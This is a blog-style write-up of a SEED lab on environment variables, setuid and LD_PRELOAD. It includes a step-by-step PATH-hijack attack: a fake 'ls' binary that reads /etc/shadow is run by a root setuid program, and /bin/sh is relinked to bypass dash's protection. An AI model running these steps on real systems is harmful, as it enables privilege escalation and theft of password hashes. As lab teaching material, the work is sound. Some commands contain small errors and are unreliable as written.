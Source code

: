 ```yaml
---
layout: post
title: Environment Variables & SetUID
excerpt: Environment variables are variables that store information, such as configuration settings or system paths, that can be accessed by applications and scripts. Environment variables affect the behavior of programs and scripts that use them. Environment variables are usually stored in a key-value pair format, where the variable name represents the key and its corresponding value represents the data associated with that variable.
categories: [setuid, setgid]
---
```


In this post, I aim to document my findings while performing a SEED lab.


### Environment Variables

Environment variables are variables that store information, such as configuration settings or system paths, that can be accessed by applications and scripts. Environment variables affect the behavior of programs and scripts that use them. Environment variables are usually stored in a key-value pair format, where the variable name represents the key and its corresponding value represents the data associated with that variable.

Environment variables can be set, modified, or removed by the user, by scripts, or by applications. To view the environmental variables that are already set, one can use `printenv` or `printenv [KEY]` i.e., `printenv SHELL`

To set an environment variable:

- `export KEY:"VALUE"`

To unset an environment variable:

- `unset KEY`

When a parent process creates a child process through `fork()`, the environment variables of the parent process is copied to the child process. This means that every child process will by default have the same environment variables that the parent has.

When `system()` is used to execute a command in a script or program, it doesn't directly execute the program, but rather calls `/bin/sh` to execute the command; however, when execve() is used to execute a command in a script or program, it directly executes a command. The implication of `system()` not directly executing the command is that any command provided cannot be effectively sanitized but gets sent through to `bin/sh` to execute.

<br>

### SetUID

Setuid, short for "set user ID upon execution," is a permission that allows a user to temporarily adopt the privileges of the owner of a file. This means that when a setuid is enabled for an executable file, anyone who executes that file does so as though he or she is the file's owner.

Setuid, if not implemented correctly, can pose security risks. Malicious users can exploit such programs to execute arbitrary code with elevated privileges.

From the previous section, we learned that some programs create new processes using `system()` and that these commands executed by `system()` are not executed directly but through a call to `/bin/sh`. This means that when setuid programs invoke a new process by calling `system()`, bad things can happen.

When a relative path is given, the program searches through the "PATHS" provided in the environment variable. By modifying the "PATH" in the environment variable and appending the path where our malicious program is to the beginning of the PATH variable, we can trick the program to run our malicious program with root permissions rather than the legitimate program.

<details>
  <Summary>
    Note:
  </Summary>
  <br>
   "/bin/sh" is a symbolic link pointing to "/bin/dash". Dash has a countermeasure that prevents itself from being executed in a Set-UID process. To see how our attack works without such a countermeasure, we will link "/bin/sh" to "/bin/sh" to "/bin/zsh" which does not have such a countermeasure. (ln -sf /bin/zsh /bin/sh)
</details>

When SetUID programs run, they create privileged processes during execution and destroy those privileged processes after execution. If some of the priviledged processes are not cleaned up, this could lead to capability leakage, whereby these privileged processes may still be accessible by the non-privileged processes. This is undesirable, as such leaked capabilities can be exploited by malicious users.


#### Create setuid program

1. The program that we would create and set the SetUID permission on is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("ls");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o mysetuid mysetuid.c`

3. change the owner to root and set setuid permission

   - sudo chown root mysetuid

   -  sudo chmod 4755 mysetuid


#### Create malicious program

In order to take advantage of the vulnerability present in the setuid program, we will create a malicious program named ls and export the path of the malicious program to set the environment variable.

1. The malicious program that we would create is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("usr/bin/cat /etc/shadow");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o malicious_app malicious_app`

3. backup the path, copy the malicious program to /tmp/bin/ and export the path

   - `printenv PATH > path_env.bk`
  
   - `mkdir /tmp/bin && cp ./malicious_app /tmp/bin/ls`
  
   - `export PATH=/tmp/bin:$PATH`


#### Run the setuid program

***PATH environment variable***
![path-env](https://github.com/iukadike/blog/assets/58455326/dcab81cf-1f32-407c-b22b-215f1ef16c05)

***`./mysetuid`***
![setuid](https://github.com/iukadike/blog/assets/58455326/4967ca5b-d476-4ed3-b115-fed4e2e24758)

<br>

### LD PRELOAD

An executable program usually relies on external libraries to function as expected. These external libraries can either be linked to the executable program statically or dynamically.

When these libraries are statically linked, the library code becomes part of the executable itself and is linked directly into the executable at compile time. This means that the program does not require any external libraries during execution. The size of the executable is usually larger. A disadvantage, though, is that if the libraries are updated, the executable needs to be recompiled with the updated library.

On the other hand, when these libraries are dynamically linked, a reference to the functions in the library is included in the executable at compile time and linked to the executable during runtime. The size of the executable is usually smaller. Since only a reference to the functions in the library is included in the executable, when a library is updated, the executable does not need to be recompiled as it will be linked to the updated library during runtime. A disadvantage, though, is that a malicious user can supply a malicious library that the executable will link to during execution.

The LD_PRELOAD environment variable allows a user to specify an additional shared library that should be loaded before all other libraries. The effect of this is that it allows overriding function calls that are made by other libraries.

<br>

Thanks for reading.


